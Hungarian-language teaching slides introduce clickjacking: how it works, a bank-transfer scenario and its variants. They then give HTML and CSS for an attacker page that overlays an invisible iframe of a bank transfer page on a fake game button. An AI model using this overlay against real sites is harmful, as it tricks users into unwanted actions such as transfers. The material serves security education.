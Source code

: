 
## 📊 7. DIA - Clickjacking Bevezető

### **🎭 Clickjacking (UI Redressing)**

#### **Mi ez?**
A felhasználót megtévesztő támadás, ahol nem azt kattintja, amit gondol

#### **Hogyan működik?**
1. **Legitim oldal beágyazása** láthatatlan iframe-be
2. **Csaló tartalom** elhelyezése felülre
3. **Felhasználó megtévesztése** - azt gondolja másra kattint
4. **Valós művelet végrehajtása** a háttérben

#### **Példa szcenárió:**
- Felhasználó egy "Játék indítása" gombra kattint
- Valójában egy "1000$ átutalás" gombra kattint
- A háttérben futó banki alkalmazásban történik a művelet

#### **Típusai:**
- **Klasszikus clickjacking**
- **Likejacking** (social media)
- **Cursorjacking**
- **Drag & drop támadások**

---

## 📊 8. DIA - Clickjacking Támadás

### **Gyakorlati Támadás Bemutatása**

#### **Támadó oldal HTML-je:**
```html
<div class="fake-game">
    <h2>🎮 Új Játék!</h2>
    <p>Kattints a gombra a játék indításához!</p>
    
    <!-- Felhasználó ezt látja -->
    <button class="fake-button">Játék Indítása</button>
    
    <!-- Ez van a háttérben (láthatatlan) -->
    <iframe src="https://bank.com/transfer" 
            style="position: absolute; top: 0; left: 0; 
                   opacity: 0; z-index: 999;">
    </iframe>
</div>
```

#### **CSS trükk:**
```css
.fake-button {
    position: relative;
    z-index: 1;
}

iframe {
    position: absolute;
    top: 50px; /* A banki gomb pozíciója */
    left: 100px;
    opacity: 0; /* Láthatatlan */
    z-index: 999; /* Legfelül */
}
```

